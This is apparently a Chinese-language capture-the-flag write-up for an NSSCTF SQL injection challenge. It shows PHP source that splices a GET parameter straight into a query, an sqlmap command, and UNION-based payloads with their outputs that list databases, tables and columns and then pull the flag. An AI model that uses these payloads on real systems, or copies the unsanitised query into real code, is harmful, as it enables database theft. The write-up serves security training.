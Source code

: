 ---

# 这是什么？SQL ！注一下 ！
一个输入框和提示        
给出了Key Source
```php
<?php
$sql = "SELECT username,password FROM users WHERE id = ".'(((((('.$_GET["id"].'))))))';
$result = $conn->query($sql);
```
## sqlmap
```batch
python sqlmap.py -u "http://node5.anna.nssctf.cn:25805/?id=1" --dbs
```
详情见***通过sqlmap拿下数据库.md***
## 初步尝试
输入1试试看
```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1))))))
Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
)
```
有很多括号，构造`id = 1)))))) or 1=1#`      
后台代码变成了
```sql
SELECT username,password FROM users WHERE id = ((((((1)))))) or 1=1#))))))
```
```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1)))))) or 1=1#))))))
Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => fake_flag 
    [password] => F1rst_to_Th3_eggggggggg!} (4/4) 
    ) 
)
```
fake_flag,答案不在这里

## 获取数据库信息
```sql
# payload
id=1)))))) union select 1,group_concat(schema_name) from information_schema.schemata#
```
```sql
# 回显：
Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => information_schema,mysql,ctftraining,performance_schema,test,ctf 
    ) 
)
```
数据库有：
* information_schema
* mysql
* ctftraining
* performance_schema
* test
* ctf

## 获取表名
一个个读取数据库的表名，flag在ctftraining数据库里，直接拿这个演示了
```sql
# payload
?id=1))))))union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'#
```
```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1))))))union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'#))))))

Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => flag,news,users 
    ) 
)
```
找到flag表了
## 获取字段
```sql
# payload
?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema='ctftraining'#
```
```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema='ctftraining'#))))))

Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => flag,id,title,content,time,id,username,password,ip,time 
    ) 
)
```
找到flag字段了
## 获取flag
```sql
# payload
?id=1)))))) union select 1,flag from ctftraining.flag#
```
```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1))))))union select 1,flag from ctftraining.flag#))))))

Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => NSSCTF{26433a18-4388-4bd5-865f-d09f2a2443e4} 
    ) 
)
```
flag：NSSCTF{26433a18-4388-4bd5-865f-d09f2a2443e4}